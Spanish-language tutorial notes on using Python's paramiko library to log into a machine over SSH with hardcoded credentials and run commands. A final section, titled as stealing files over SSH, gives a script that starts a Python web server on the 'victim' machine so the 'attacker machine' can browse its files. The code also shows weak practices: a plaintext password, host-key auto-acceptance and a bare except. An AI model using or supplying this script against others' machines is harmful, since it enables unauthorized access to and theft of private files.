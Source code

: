 import paramiko
import time

`host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
`user = 'mario'
`password = '123123'

`client = paramiko.SSHClient()
`client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
`client.connect(host, username=user, password=password) # Cargamos las variables.
`client.set_missing_host_key_policy( paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

`stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.

`time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.

`resultado = stdout.read().decode() # Recogemos el standar output en una variable.
`print(resultado)
![[Pasted image 20221217085658.png]]
También podemos mejorar el código de tal forma que en caso de que la conexión tenga algún error, que se nos muestre dicho mensaje por pantalla:

`import paramiko
`import time

`host = '192.168.1.9' # Ponemos los datos del servidor donde nos queramos conectar.
`user = 'mario'
`password = '123123'

`try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
    client.connect(host, username=user, password=password) # Cargamos las variables.
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

    stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.
    time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.
    resultado = stdout.read().decode() # Recogemos el standar output en una variable.
    print(resultado)

`except:

    print("Algo ha fallado en la conexión...")

![[Pasted image 20221217085839.png]]
# ROBAR ARCHIVOS POR SSH CON PYTHON
También podemos ejecutar el comando para montar un servidor web con python y así poder robar los archivos:

`import paramiko

`host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
`user = 'mario'
`password = '123123'

`try:

    client = paramiko.SSHClient()

    client.load_host_keys('C:/Users/mario/.ssh/known_hosts')

    client.connect(host, username=user, password=password)

    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() )

    print("Debes escribir esta dirección en el navegador para acceder a los archivos de la víctima: ",host)

    client.exec_command('python3 -m http.server 81') # Montramos el servidor Python por el puerto que queramos.

`except:

    print("Hubo un error...")

Y ya tenemos acceso desde nuestra máquina atacante a los archivos de la víctima:

![[Pasted image 20221217085936.png]]

